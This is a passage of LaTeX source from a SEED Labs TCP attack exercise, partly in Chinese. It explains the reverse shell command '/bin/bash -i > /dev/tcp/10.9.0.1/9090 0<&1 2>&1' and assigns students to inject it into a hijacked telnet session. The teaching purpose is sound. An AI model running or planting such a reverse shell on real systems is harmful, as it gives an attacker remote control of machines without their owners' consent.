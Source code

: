 下面我们提供了提供一个关于反向shell命令的简单描述，详细的解释可以在SEED book中找到。

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

总之, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} 启动了一个
\texttt{bash} shell, 其 \texttt{stdin} 来自一个 TCP 连接, \texttt{stdout} 和 \texttt{stdout} 被重定向到这一连接。

如上所示, 当 \texttt{bash} shell 命令在 \texttt{10.9.0.5} 上运行时, 它连回 \texttt{10.9.0.1} 上的 \texttt{netcat} 进程。
这可以通过 \texttt{netcat} 显示的 \texttt{"Connection received on 10.9.0.5"} 消息来确认。

上面展示了在能访问目标机器的情况下如何建立一个反向 shell，但在本任务中，你没有权限直接访问目标机器。
你的任务是对用户和目标机器之间现有的 \texttt{telnet} 会话发起TCP会话劫持攻击。
你需要在被劫持的会话中注入恶意命令，这样你就可以在目标服务器上获得一个反向shell。




\section{Submission}



\section*{致谢}

I would like to thank CSender (GitHub ID), Eric Dong, and Chao Gong,
for their suggestions on improving the SYN flooding attack
task in this lab. 



